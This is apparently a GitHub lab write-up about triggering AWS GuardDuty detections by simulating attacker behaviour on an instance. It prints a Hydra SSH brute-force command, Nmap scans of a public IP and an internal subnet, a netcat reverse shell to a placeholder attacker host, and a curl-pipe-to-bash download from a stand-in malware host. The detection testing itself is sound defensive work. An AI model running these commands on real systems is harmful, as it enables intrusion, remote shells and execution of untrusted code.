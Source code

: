### 🎯 Objective

Trigger GuardDuty's malware protection engine by simulating suspicious behavior or malware retrieval on the instance. Also verify logs are captured and GuardDuty detects and reports the threat.

---

### 🛠️ Simulating Malicious Activity

1. **Brute-force Attempt (Hydra)**
   I tested brute-force attempts against the SSH service using Hydra (with a nonexistent wordlist):

   ```bash
   hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://44.192.14.11
   ```

   ❗ `rockyou.txt` was not found, but this simulates failed enumeration.

2. **Nmap Recon on Public IPs and Internal Network**

   * Scanned Cloudflare IP to simulate noisy recon:

     ```bash
     sudo nmap -sS -T4 -Pn -p 1-1000 1.1.1.1
     ```
   * Internal network scan:

     ```bash
     sudo nmap -sS -T4 -Pn 192.168.1.0/24
     ```

   🔥 This is very noisy and likely to be picked up by behavior-based detections.
<img width="1920" height="909" alt="VirtualBox_Kali Linux_28_07_2025_00_24_41" src="https://github.com/user-attachments/assets/1b51b47e-c51d-4ec8-86e8-f5a796f174df" />


3. **Netcat Reverse Shell Simulation**
   I attempted a reverse shell using Netcat, but the AMI version doesn’t support `-e`:

   ```bash
   nc -e /bin/bash attackerip 4444
   ```

   ➡️ Output:

   ```
   nc: invalid option -- 'e'
   ```

4. **Simulated Malware Download with cURL**
   I tried downloading a fake payload and piping it into bash:

   ```bash
   curl http://badhost.com/malware | bash
   ```

   ➡️ Output showed a `301 Moved Permanently` page, but this simulates command-and-control behavior.
<img width="948" height="798" alt="VirtualBox_Kali Linux_28_07_2025_00_26_52" src="https://github.com/user-attachments/assets/406e142f-a411-436f-87db-476fdebfcc10" />

---
